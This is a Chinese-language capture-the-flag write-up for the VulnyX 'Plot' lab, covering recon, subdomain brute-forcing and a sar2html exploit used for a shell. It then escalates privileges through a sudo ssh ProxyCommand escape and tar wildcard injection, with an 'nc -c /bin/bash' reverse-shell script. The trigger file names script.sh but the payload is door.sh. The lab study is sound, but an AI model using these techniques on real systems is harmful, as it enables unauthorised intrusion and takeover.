# 环境

来自[vulnyx_Plot](https://vulnyx.com/#Plot)，爆破网站子域名，利用已知sar2html漏洞拿shell

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.88.41
```



## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.41
```



## 详细信息

```bash
sudo nmap -sV -sC -O -p22,80 192.168.88.41
```



## 目录扫描

```bash
dirb http://192.168.88.41
```

结果没有什么东西

# web渗透

## 发现域名

```bash
curl -I http://192.168.88.41
发现X-Custom-Hander值是一个域名，修改/etc/hosts
```



## 爆破子域名

得到一个域名，访问还是测试页面，考虑是否存在子域名访问

```bash
ffuf -u http://pl0t.nyx -H host:FUZZ.pl0t.nyx -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs 10701
```



```bash
gobuster vhost -u pl0t.nyx -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain 
```



修改hosts访问`http://sar.pl0t.nyx`，发现是`sar2html 3.2.1`

## 已知漏洞

```bash
searchsploit sar2html
searchsploit -m 49344
```



反弹shell





## 提权

[ssh提权](https://gtfobins.github.io/gtfobins/ssh/#sudo)

```bash
sudo -l
sudo -u tony ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```



tony提权无果，运行进程监控程序[pspy](https://github.com/DominicBreuker/pspy)，发现会自动备份网站文件



tar提权

```bash
在/var/www/html下创建，和door.sh
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh script.sh"
创建door.sh反弹shell脚本
nano door.sh
#!/bin/bash
nc -c /bin/bash 192.168.88.10 4444
```


